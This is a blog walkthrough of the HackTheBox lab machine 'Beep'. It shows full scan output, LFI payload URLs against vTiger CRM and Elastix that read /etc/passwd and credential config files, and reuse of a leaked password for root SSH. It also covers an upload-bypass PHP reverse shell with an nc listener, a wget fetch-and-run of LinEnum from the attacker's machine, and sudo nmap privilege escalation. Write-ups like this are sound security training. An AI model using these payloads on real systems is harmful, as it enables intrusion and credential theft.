 ```yaml
---
title: "Walk-through of Beep from HackTheBox"
header: 
  teaser: /assets/images/2020-05-05-22-24-23.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - gobuster
  - LFI
  - Linux
---
```


## Machine Information

![Beep](/assets/images/2020-05-05-22-24-23.png)

Beep has a large list of running services, which can make it a bit challenging to find the
correct entry method. Skills required are basic knowledge of Linux and enumerating ports and services. Skills learned are web-based fuzzing, identifying known exploits and exploiting local file inclusion vulnerabilities.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 005 - Easy - Beep](https://www.hackthebox.eu/home/machines/profile/5) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 16th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

## Method Using Meterpreter

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/beep# nmap -sS -sC -sV -oA beep -p- -T4 10.10.10.7

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-21 22:39 BST
Nmap scan report for 10.10.10.7
Host is up (0.039s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP PIPELINING USER STLS TOP LOGIN-DELAY(0) AUTHRESP-CODE EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            874/udp  status
|_  100024  1            877/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4rev1 Completed ACL URLAUTHA0001 OK UIDPLUS THREAD=REFERENCES IDLE ANNOTATEMORE IMAP4 LIST-SUBSCRIBED LISTEXT CHILDREN CATENATE ID THREAD=ORDEREDSUBJECT UNSELECT X-NETSCAPE MAILBOX-REFERRALS ATOMIC STARTTLS RENAME SORT BINARY RIGHTS=kxte MULTIAPPEND LITERAL+ CONDSTORE NAMESPACE QUOTA NO SORT=MODSEQ
443/tcp   open  ssl/https?
|_ssl-date: 2019-07-21T21:38:52+00:00; -3m49s from scanner time.
877/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
Host script results:
|_clock-skew: mean: -3m49s, deviation: 0s, median: -3m49s
```

Lots of ports open, start on normal path looking at port 80.

### Gaining Access

Opening website at http://10.10.10.7 on port 80 automatically redirects to port 443:
![Website](/assets/images/2020-05-11-22-37-57.png)

Login page for something called Elastix. Quick search for default credentials finds this [info](https://dariusfreamon.wordpress.com/2013/11/01/elastix-pbx-default-credentials/). Tried those plus other obvious ones but no luck, so try gobuster to find anything hidden:

```text
root@kali:~/htb/beep# gobuster dir -k -u https://10.10.10.7 -w /usr/share/wordlists/dirb/big.txt
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/07/21 22:53:47 Starting gobuster
===============================================================
/vtigercrm (Status: 301)
```

Having a look at the site: https://10.10.10.7/vtigercrm - We find CRM is version is 5.1.0

Have a look on searchsploit:

```text
root@kali:~/htb/beep# searchsploit vtiger
vTiger CRM 5.1.0 - Local File Inclusion  |  exploits/php/webapps/18770.txt
```

Exploit shows how to use LFI to navigate to sub-directories, use this in browser to get passwd file:

```text
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

Press ctrl-u to view source, shows as a proper list instead of jumble.

Copy and paste in to vi, remove all users with no login by doing:

```text
:g/nologin/d
```

Then remove non interesting logins, and cut from cursor to end of line with d$ for each remaining user to give simple list like this:

```text
root
cyrus
asterisk
fanis
```

No obvious way forward with this, so save for possible brute force later and look for another path.

Going back to at Elastix, I find it's prone to LFI exploit:

```text
root@kali:~/htb/beep# searchsploit elastix
-------------------------------------------------------------------------------- 
Exploit Title                                    |  Path
                                                 | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------- 
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php/webapps/37637.pl
-------------------------------------------------------------------------------- 
```

Exploit shows how to expose the Elastix config, use this in browser:

```text
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

This exposes the user **AMPortal**, with password **jEhdlekWmdjE**

The machine is vulnerable to password reuse, so it's possible to logon as root using this password:

```text
root@kali:~/htb/beep# ssh root@10.10.10.7
root@10.10.10.7's password:   <---- enter jEhdlekWmdjE found above
Last login: Tue Jul 16 11:45:47 2019
Welcome to Elastix 
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
```

### User and Root Flags

Now have an ssh session on to the machine, check who we are logged on as:

```text
whoami
root
```

On as root user, so can get both flags:

```text
cat /home/fanis/user.txt
cat /root/root.txt
```

## Alternative Method

Brief notes of a different way to complete the box.

Log in to https://10.10.10.7/vtigercrm - user **admin**, password **jEhdlekWmdjE**

Navigate to Settings - Company Details

There is a file upload vulnerability where you can upload a jpg but it doesn't properly sanitise. So you can have shell.php.jpg, then use [Tamper Data](https://addons.mozilla.org/en-GB/firefox/addon/tamper-data-for-ff-quantum/) or [Burp](https://portswigger.net/burp) (already installed on Kali) to intercept request and remove double extension. Should then upload as a php file.

Have an nc -lvp 1234 waiting in a terminal and should get a reverse shell.

We are then logged in as user asterisk, and can get user flag from fanis folder.
When checking we see /tmp, is world writeable, so CD to there.

Start web server on Kali:

```text
root@kali:~/htb/beep# service apache2 start
```

Switch back to the box, pull LinEnum to it and run:

```text
wget 10.10.14.10/LinEnum.sh
bash LinEnum.sh
```

Shows what commands can use sudo without password (same as doing sudo -l). Has nmap in list.

Use nmap to escalate to root:

```text
sudo nmap --interactive 
!sh
whoami
root
```

I can now get the user and root flags, from the paths the same as above.
